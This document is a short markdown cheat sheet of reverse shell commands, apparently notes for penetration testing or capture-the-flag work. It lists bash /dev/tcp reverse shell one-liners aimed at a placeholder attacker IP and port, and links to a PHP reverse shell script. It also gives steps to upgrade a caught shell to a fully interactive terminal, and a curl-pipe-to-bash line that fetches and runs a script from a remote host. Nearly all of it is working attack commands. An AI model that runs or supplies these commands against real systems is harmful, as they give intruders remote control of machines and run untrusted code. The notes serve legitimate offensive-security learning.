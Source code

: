 # Reverse Shells - Examples

https://www.revshells.com/

## Bash

	bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1

	if the shell being used is dash and not bash (check by doing ls -la /bin/sh)

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"
	To use the bash's built-in /dev/tcp device file the use must use /bin/bash as shell. Often it uses sh or dash, then you can use bash -c "<cmd>" to force the bash

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm


## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash

## Resources

https://security-tips.vincd.com/reverse-shell/